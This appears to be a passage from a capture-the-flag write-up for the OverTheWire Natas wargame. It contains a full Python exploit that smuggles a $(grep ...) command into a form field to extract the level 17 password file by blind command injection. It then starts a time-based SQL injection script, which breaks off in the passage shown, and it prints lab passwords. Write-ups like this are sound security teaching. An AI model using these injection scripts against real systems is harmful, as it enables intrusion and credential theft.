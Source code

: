 
# Natas 17
Now, as we analyze the source code, we can see that our input executed as command, that's why **Command Injection(Blind)** appears.
For this, I just code python exploit, let's look at the exploit to find password of natas17.

```python
import requests
import re
import string

chars = string.ascii_lowercase + string.ascii_uppercase + string.digits


user = 'natas16'
passw = 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V'

url = 'http://natas16.natas.labs.overthewire.org/'

session = requests.Session()
response = session.get(url, auth = (user, passw) )

seen_password = list()
while ( len(seen_password) < 32 ):

	for character in chars:
		print ("".join(seen_password) + character)
		response = session.post(url, data = { "needle" : "anythings$(grep ^" + "".join(seen_password) + character + " /etc/natas_webpass/natas17)" },auth = (user, passw) )
		content = response.text


		returned = re.findall( '<pre>\n(.*)\n</pre>', content )

		if ( not returned ):
			seen_password.append( character )
			break
```

# Natas 18
Again, we come across with **SQL Injection(Time-Based)** vulnerability and I decide to solve this CTF, I use previous code by modifying exploit.

```python
import requests
import re
import string
from time import *

chars = string.ascii_lowercase + string.ascii_uppercase + string.digits

user = 'natas17'
passw = 'XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd'

url = 'http://natas17.natas.labs.overthewire.org/'

session=requests.Session()
response=session.get(url,auth=(user,passw))
pospass=list()

while(len(pospass)<32):
    for character in chars:
        start_time=time()
```